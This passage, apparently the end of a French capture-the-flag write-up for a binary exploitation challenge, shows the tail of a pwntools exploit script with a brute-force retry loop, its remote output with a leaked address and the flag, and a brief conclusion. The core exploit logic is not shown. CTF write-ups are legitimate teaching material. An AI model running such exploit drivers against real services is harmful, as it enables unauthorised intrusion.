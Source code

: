 ```py

    io.interactive() # le flag
    input("end")
    exit()

launch()
exploit()
exit()

# if bruteforce is required
while True:
    count = 0
    tries += 1
    tries_prog.status(str(tries))

    launch()
    try:
        exploit()
    except EOFError:
        pass

    with context.local(log_level=logging.ERROR):
        io.close()
    # sleep(0.05)

```

```sh
$ python3 exploit.py REMOTE

[+] exe: 0x0000556a1d8d1000
[*] Switching to interactive mode
Au revoir!
NBCTF{L3ak1ng_1s_n0t_d1ff1c1l7?}
[*] Got EOF while reading in interactive
...
```

# Conclusion

J'ai trouvé le challenge intéressant par rapport au fait qu'il faut utiliser une vulnérabilité pour en provoquer une autre plus puissante.
